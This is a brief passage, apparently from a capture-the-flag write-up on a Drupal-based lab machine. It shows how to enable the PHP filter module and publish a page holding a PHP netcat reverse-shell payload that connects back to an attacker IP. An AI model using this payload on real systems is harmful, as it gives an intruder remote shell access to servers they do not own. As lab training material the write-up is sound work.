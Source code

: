 
In `modules` enable the 'PHP filter'

![php-filter](/assets/img/hawk/hawk-modules-php.png)


Save the configuration.


<hr width="300" size="8">



Click `add content` and create a basic page, paste some evil PHP into it:

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 6969 >/tmp/f"); ?>
```
